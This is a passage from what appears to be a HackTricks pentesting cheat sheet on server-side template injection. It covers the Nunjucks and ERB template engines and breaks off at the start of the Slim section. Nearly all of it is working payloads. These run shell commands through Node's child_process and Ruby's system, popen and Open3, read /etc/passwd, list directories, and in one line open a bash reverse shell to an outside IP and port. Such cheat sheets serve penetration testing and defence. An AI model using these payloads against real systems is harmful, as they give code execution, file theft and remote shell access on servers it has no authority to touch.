 - {{console.log(1)}} = Error
    



```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}
```

**More information**

- [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

ERB (Ruby)

- `{{7*7}} = {{7*7}}`
    
- `${7*7} = ${7*7}`
    
- `<%= 7*7 %> = 49`
    
- `<%= foobar %> = Error`
    



```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#slim-ruby)

Slim (Ruby)

- `{ 7 * 7 }`
    

